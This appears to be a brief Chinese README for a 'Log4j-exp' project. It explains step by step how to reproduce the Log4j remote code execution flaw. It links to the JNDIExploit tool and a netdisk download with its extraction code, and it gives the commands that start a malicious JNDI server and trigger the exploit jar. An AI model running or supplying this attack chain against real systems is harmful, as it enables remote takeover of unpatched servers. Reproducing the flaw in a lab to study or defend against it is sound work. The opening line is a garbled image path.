 # Log4j-exp
帮助你快速复现Log4j漏洞   
           
首先你可以去百度网盘或者github下载所需要的jar包来更方便快捷的开起jndi   
`https://github.com/feihong-cs/JNDIExploit`    
`https://pan.baidu.com/s/1lxXt-27-i7I_dOUACphVtQ 提取码: nkc5 `      
         
下载完成之后使用以下命令开一个jndi   
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i ip`         

        
下载之后使用idea编译将项目编译为jar之后使用以下命令触发   
`java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar Log4j-rce.jar`         
    
下方是视频演示教学地址相信我你也可以变成光   
``
